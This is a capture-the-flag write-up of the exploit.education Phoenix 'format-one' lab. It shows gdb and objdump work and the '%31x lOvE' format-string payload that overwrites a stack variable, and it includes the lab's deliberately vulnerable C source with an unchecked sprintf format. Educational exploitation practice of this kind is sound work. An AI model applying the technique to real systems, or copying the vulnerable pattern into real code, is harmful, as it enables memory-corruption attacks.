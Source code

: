 # Phoenix format-zero
https://exploit.education/phoenix/format-one/
### Result
`Well done, the 'changeme' variable has been changed correctly!`
### Setup
Same as `format-one` but I wanted `ASLR off`. I tried to run the container with additional privileges:

```
docker run -idt --name ctf --privileged --security-opt seccomp:unconfined duckll/ctf-box
docker container exec -it ctf bash
```
But a better idea may have been just to run `sudo sysctl -w kernel.randomize_va_space=0` on the host machine.

### Compile code
This is another `sprintf` challenge. Almost identical to the last but you have to modify the payload.

```
gcc -g -fno-stack-protector -z execstack -no-pie -o format_zero format_zero.c

format_one.c:34:24: warning: format not a string literal and no format arguments [-Wformat-security]
   sprintf(locals.dest, buffer);
```
### Reversing
Finding the magic value:
```
# objdump -d format_one | grep cmp
  4005e6:	48 3d 58 10 60 00    	cmp    $0x601058,%rax
  400650:	80 3d 11 0a 20 00 00 	cmpb   $0x0,0x200a11(%rip)        # 601068 <completed.7697>
  4006fb:	3d 6c 4f 76 45       	cmp    $0x45764f6c,%eax
  400781:	48 39 dd             	cmp    %rbx,%rbp
```
That wasn't great as it included non-main code. What about:
```
# gdb -batch -ex 'file format_one' -ex 'disassemble main' | grep -i cmp
0x00000000004006fb <+116>:	cmp    eax,0x45764f6c
```
Checking how to construct the bytes:
```
# rabin2 -I format_one
arch     x86
baddr    0x400000
binsz    9152
bintype  elf
bits     64
canary   false
endian   little     <- endian order
```
### Payloads
##### No payload
```
root@bd0657a17d54:~# ./format_one
Welcome to format_one brought to you by https://exploit.education
AAAA
Uh oh, 'changeme' is not the magic value, it is 0x00000000
```
##### good payload from format_zero
```
gef➤  r
Starting program: /root/format_one
Welcome to format_one brought to you by https://exploit.education
%p %p %p %p
Uh oh, 'changeme' is not the magic value, it is 0x36783020
```
##### Create payload
`gef➤  shell echo "%p%p\x41\x41\x41\x41\x41\x41" > payload.txt`
##### Run payload
```
gef➤  r < payload.txt
Uh oh, 'changeme' is not the magic value, it is 0x3134785c
```


gef➤  set $stack_size = $rbp - $rsp
gef➤  p/d $stack_size
$1 = 80

##### Create test payload
`# python -c 'print "%31x " + "\x41\x41\x41\x41"' > payload.txt`


##### Better way to find the local variables - look at the disassembly of main()
```
0x00000000004006e0 <+89>:	lea    rdx,[rbp-0x40]
0x00000000004006e4 <+93>:	lea    rax,[rbp-0x30]
```
##### Size of user input - 16 bytes
```
gef➤  p/d 0x40 - 0x30
$4 = 16
```
##### The user inputted buffer - size 16 bytes
```
gef➤  x/4wx $rbp-0x40
0x7fffffffe520:	0x78313325	0x41414120	0x00000a41	0x00000000

gef➤  x/s $rbp-0x40
0x7fffffffe520:	"%31x AAAA\n"
```
##### The destination buffer - size 32 bytes
```
gef➤  x/s $rbp-0x30
0x7fffffffe530:	< full of junk >
````

##### Watch memory
Once `sprintf` run, you observe the destination buffer fill.
```
gef➤  memory watch $rbp-0x30 8 qword
gef➤  n
──────────────────────────────────────────────────────────────── memory:0x7fffffffe530 ────
0x00007fffffffe530│+0x0000   0x2020202020202020   
0x00007fffffffe538│+0x0008   0x2020202020202020   
0x00007fffffffe540│+0x0010   0x6620202020202020   
0x00007fffffffe548│+0x0018   0x2030323565666666   
0x00007fffffffe550│+0x0020   0x0000000a41414141   
0x00007fffffffe558│+0x0028   0x0000000000000000   
0x00007fffffffe560│+0x0030   0x0000000000400730   
0x00007fffffffe568│+0x0038   0x00007ffff7a05b97   

```

### Result
##### Create final payload
You fill the `destination buffer` using the `format arguments`. Then you `little endian` the byte order.

The final payload is `"%31x lOvE"`.

`# python -c 'print "%31x " + "\x6c\x4f\x76\x45"' > payload.txt`



### Source code
```
 /*
 * Can you change the "changeme" variable?
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to format_one brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```
